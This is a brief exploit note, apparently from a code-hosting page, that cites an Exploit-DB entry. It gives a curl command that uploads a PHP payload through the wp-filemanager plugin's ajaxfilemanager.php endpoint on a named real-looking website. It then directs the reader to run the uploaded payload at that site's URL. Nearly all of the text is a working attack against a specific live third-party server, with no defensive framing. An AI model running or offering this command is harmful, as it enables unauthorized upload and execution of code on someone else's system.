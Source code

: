 https://www.exploit-db.com/exploits/4844

Upload php file to wordpress using wp-filemanager

```sh
curl -F ‘data=@payload.php’ https://www.acesafrica.co.za/wp-content/plugins/wp-filemanager/ajaxfilemanager/ajaxfilemanager.php
```

Run the file @ https://www.acesafrica.co.za/uploaded/payload.php
